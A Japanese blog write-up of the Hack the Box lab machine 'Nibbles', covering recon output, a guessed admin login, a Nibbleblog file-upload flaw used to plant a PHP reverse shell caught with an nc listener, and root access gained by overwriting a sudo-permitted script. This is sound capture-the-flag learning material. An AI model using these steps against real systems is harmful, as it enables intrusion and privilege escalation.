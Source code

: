 ```yaml
---
title: "【Hack the Box write-up】Nibbles"
date:  "2020-06-14T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Nibbles"
draft: true
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```


## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)

## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です

![スクリーンショット 2020-06-14 15.33.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6ef7b88f-0f70-dc79-963c-a77031628fc7.png)

評価が低いマシンでした。
~~ちなみに僕も「ん？」って感じました。~~



## nmap 

```
# Nmap 7.80 scan initiated Sun Jun 14 01:12:49 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/AutoRecon/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /home/kali/AutoRecon/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Increasing send delay for 10.10.10.75 from 0 to 5 due to 13 out of 43 dropped probes since last increase.
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.25s latency).
Scanned at 2020-06-14 01:12:50 EDT for 54s
Not shown: 998 closed ports![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c70eda51-c6d3-4f29-95dc-356558d755a9.png)
![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1ca9748c-0749-b0f4-8355-745b6e79c3a8.png)

Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 14 01:13:44 2020 -- 1 IP address (1 host up) scanned in 54.58 seconds

```

## 80番
![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/0e3a3060-51ea-79fb-f818-1e98868722eb.png)

![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/b7d5c7aa-5ed2-42b0-e87e-fd6e4e2f773a.png)

## /nibbleblog/を開く

![スクリーンショット 2020-06-14 15.32.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7f2ba659-466d-6cb4-bd49-81ef6f8c09bf.png)

nibbleblog のこの version には File Upload Vulnerability があります
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload

## gobuster

```
kali@kali:~$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/06/14 02:32:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
[ERROR] 2020/06/14 02:33:28 [!] Get http://10.10.10.75/nibbleblog/servlets.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/xFS.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/5260.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/News_Readers.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:13:08 [!] Get http://10.10.10.75/nibbleblog/prag: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:27:14 [!] Get http://10.10.10.75/nibbleblog/DWT-SpectacularRed.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:43:26 [!] Get http://10.10.10.75/nibbleblog/t10098.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/06/14 03:44:49 Finished
===============================================================

```

## /admin.php開く

Login のフォームが出てきます
他のページを割とくまなく探しましたが、credential が出てこず、数回 login 失敗するとブロックされるため hydra 等も使えません。
default credential も存在しないため、低評価であることから、まさかこれは guess か〜？と思ってぽちぽちしてたら、admin/nibbles で通りました。う〜んこれは厳しい…

（数回 login 失敗するとブロック→hydra 等使えない　= bruteforce しなくてもどこかに credentials があるよって言うメッセージなんだろーな〜と思ったんですけどね…）~~（低評価の由縁はこれか〜）~~

## さっきのFile Upload Vulnerability

https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

これを参考に以下の php の reverseshell のスクリプトを上げます
https://github.com/pentestmonkey/php-reverse-shell

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 55886
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:35:30 up  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


```

shell が取れました

## /home/nibbler/personal.zip

/home/nibbler/personal.zip を unzip します

```
nibbler@Nibbles:/home/nibbler$ find personal
find personal
personal
personal/stuff
personal/stuff/monitor.sh
```
monitor.sh と言うのが出てきます（中身はあんま関係ないので割愛

## sudo -l

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

お👀

## monitor.shを書き換え

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c*****************
```

root.txt が取れました

## 終わりに
う〜ん、login にそこそこの時間を費やしました…
精進します

